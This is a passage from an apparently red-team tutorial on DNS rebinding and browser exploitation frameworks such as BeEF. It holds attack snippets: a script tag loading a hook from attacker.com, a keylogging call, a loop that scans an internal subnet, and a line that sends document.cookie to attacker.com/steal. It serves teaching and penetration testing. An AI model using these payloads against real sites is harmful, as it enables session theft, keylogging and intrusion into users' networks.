 * Classic rebinding is harder due to built-in blocklists, but still works against:

  * IoT devices
  * Old embedded web servers
  * Misconfigured internal APIs

---

### 2. **Browser Exploitation Frameworks (BeEF, XSS Shell, etc.)**

#### What’s Happening

* You inject a small JavaScript “hook” into a victim’s browser (via XSS, malicious ad, or compromised site).
* The browser then becomes a *remote-controlled zombie* — you can send commands, collect data, and launch further attacks.

#### Attack Flow

1. Find an XSS on target site or get victim to visit malicious page.
2. Inject BeEF hook:

```html
<script src="http://attacker.com/hook.js"></script>
```

3. Browser connects to BeEF C2 server and registers as “online.”
4. Attacker issues commands: steal cookies, perform port scans, keylogging.

#### Example Actions in BeEF

* **Keylogging**

```javascript
beef.net.send('<command_id>', 'result=Key pressed: ' + key);
```

* **Internal Network Scan**

```javascript
for (let i = 1; i <= 255; i++) {
  let img = new Image();
  img.src = "http://192.168.0." + i + ":80/";
}
```

* **Session Hijacking**

```javascript
document.location="http://attacker.com/steal?cookie=" + document.cookie;
```

#### 2025 Reality Check

* BeEF is still actively maintained and useful in red-team scenarios.
* Many extensions and plugins increase attack surface (crypto wallet plugins, password managers).

---

